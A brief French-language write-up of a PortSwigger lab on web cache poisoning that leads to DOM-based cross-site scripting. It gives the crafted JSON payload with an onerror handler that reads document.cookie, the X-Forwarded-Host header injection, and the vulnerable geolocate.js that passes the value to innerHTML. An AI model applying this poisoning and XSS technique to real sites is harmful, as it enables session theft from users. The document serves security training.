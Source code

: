 # Lab

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-to-exploit-a-dom-vulnerability-via-a-cache-with-strict-cacheability-criteria

## Payload

Exploit :

```
/resources/json/geolocate.json

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: *

{
    "country": "<img src=x onerror=alert(document.cookie)>"
}
```

Sur la home page on peut injecter le header `X-Forwarded-Host` avec la valeur `exploit-0a42003003e63c5b802425be01450072.exploit-server.net` et elle est utilisée dans la balise script ici :

```html
<script>
    data = {
        "host":"exploit-0a42003003e63c5b802425be01450072.exploit-server.net",
        "path":"/",
    }
</script>
```

Et dans le script situé à `/resources/js/geolocate.js` :

```js
function initGeoLocate(jsonUrl)
{
    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            let geoLocateContent = document.getElementById('shipping-info');

            let img = document.createElement("img");
            img.setAttribute("src", "/resources/images/localShipping.svg");
            geoLocateContent.appendChild(img)

            let div = document.createElement("div");
            div.innerHTML = 'Free shipping to ' + j.country;
            geoLocateContent.appendChild(div)
        });
}
```

On voit qu'il récupère le resultat de la requête `jsonUrl` et l'injecte dans le DOM avec `j.country` qui est la valeur de `country` dans le JSON.

On peut donc poison le cache pour que la requete `jsonUrl` renvoie notre payload.